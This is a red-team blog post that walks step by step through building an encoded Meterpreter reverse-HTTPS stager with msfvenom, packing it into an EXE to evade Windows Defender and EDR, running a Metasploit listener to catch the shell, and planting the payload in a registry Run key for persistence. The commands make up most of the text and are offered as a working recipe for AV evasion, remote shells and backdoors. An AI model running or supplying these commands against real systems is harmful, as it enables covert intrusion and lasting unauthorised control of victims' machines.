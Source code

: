 ```yaml
---
title: Evade EDR with Shellcode Injection and gain persistence using Registry Run Keys
updated: 2021-02-08 16:09
---
```

Gaining a foothold in an internal network can be challenging, as AV and Defender makes this a little tougher. Modern Windows version have put in place some mitigation that prevent the shellcode to run properly. The issue is caused by the fact that the shellcode need RWX memory which are flagged when the shellcode is executed.

Shellcode injection might be very helpful for APT or Red Teamers during Pentesting, as they inject the malicious EXE and migrate the process into a trusted one by EDR. No suspicious behaviour at all!

## Encrypting the C2 communication

Transmitting data over a unencrypted Tunnel is not very recommended, it is always a great idea to replace the default SSL that Metasploit uses when generating stagers, so the communication between the stager and the C2 framework is encrypted. We can create a private RSA key and a Server Certificate for the C2 server-side.

```
openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 -keyout rsaprivate.key -out servercertificate.crt
```

![generate_rsa_and_server_cert](https://miro.medium.com/max/700/1*BkkGQXUKAbLK4QyAdUg1ww.png)

Then merging this together in a .pem file and we have created a concatenated certificate.

```
cat rsaprivate.key servercertificate.crt > my.pem
```

## Generating an encoded shellcode

Generate a Metasploit stager using the certificate and making almost obfuscated using **shikata_ga_nai** for implementing a polymorphic XOR additive feedback encoder.

```
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=192.168.1.46 LPORT=8888 --platform windows -a x86 HandlerSSLCert=./my.pem StagerVerifySSLCert=true -s 42 --smallest -e x86/shikata_ga_nai -i 9 -f raw| msfvenom --platform windows -a x86 -e x86/call4_dword_xor -i 6 -b "\x00\x0a\x0d" -f raw > shellcode.raw
```

![encoding_shellcode_with_9_iterations](https://miro.medium.com/max/700/1*r_Mn2ruiyf-OQ_q2kEOXuQ.png)

Once the shellcode is successfully generated, we will pack it into EXE.

## Packaging the shellcode

There is a open source tool called [Shecodeject](https://github.com/TaroballzChen/shecodject) which nicely package our generated shellcode into EXE. Open the tool using python3 as root:

```
sudo python3 shecodnject.py
```

Load scc module, set the shellcode.raw file which we previously generated and run the module to read the shellcode inside the file.

```
scc
set source /set/location/to/shellcode.raw
run
```

![reading_shellcode](https://miro.medium.com/max/559/1*g6DM9bSHg5PT-6SYzHPgqQ.png)

Exit the module by typing back. Now that the shellcode is read by the tool, we will pack it into an EXE, so enter the following commands 1 by 1:

```
exe
set noconsole False
run
```

The process of packaging will take a while. Once finished the output will be saved inside /output inside shecodeject folder

The EXE is generated and ready to evade modern EDRs and Windows Defender. Let’s test if it gets detected by Windows Defender:

![bypassed_windows_defender](https://miro.medium.com/max/700/1*d02_hB-bgzFhfVKKj8Keug.png)

It is bypassed, no detection at all. Now it’s time to set a listener in Metasploit and hopefully get a shell:

```
msfconsole -q -x 'use exploit/multi/handler; set ExitOnSession false; set PAYLOAD windows/meterpreter/reverse_winhttps; set LHOST 192.168.1.46; set LPORT 8888; set HandlerSSLCert /home/nade/Desktop/my.pem; set StagerVerifySSLCert true; set SessionCommunicationTimeout 600; run -j -z'
```

For the sake of the statistics, this is the detection rate when scanning in various AVs:

![virus_total_result](https://miro.medium.com/max/700/1*ZvnQegj1lDzTCGrFIZ8mMg.png)

## Gaining persistence by backdooring Registry Run Keys

For persistence we will inject our backdoor into a Registry Run Key. Luckily Metasploit has a module for this port-exploitation. The module require the following configuration and will drop an executable at a writable location on the compromised system. In this case, we will upload our backdoor which is the same stager as the one we used for gaining (on our local machine I have called it **fin.exe**) on the target machine -> **C:\tmp\fin.exe**

First create **tmp** directory and upload **fin.exe**:

![c2_upload_backdoor](https://miro.medium.com/max/700/1*KZbAWjiVyMg-g7QLTCLmfA.png)

```
use post/windows/manage/persistence_exe
set REXEPATH /home/nade/Desktop/fin.exe
set REXENAME fin.exe
set SESSION 2
set STARTUP USER
set LOCALEXEPATH C:\\tmp
run
```

![metasploit_persistence_module](https://miro.medium.com/max/700/1*ehPmp6GPl5lmgHOINca9vw.png)

The next time that the user will login with the system a new Meterpreter session will open (a black cmd screen will pop-up where it executed the backdoor and than automatically closes).
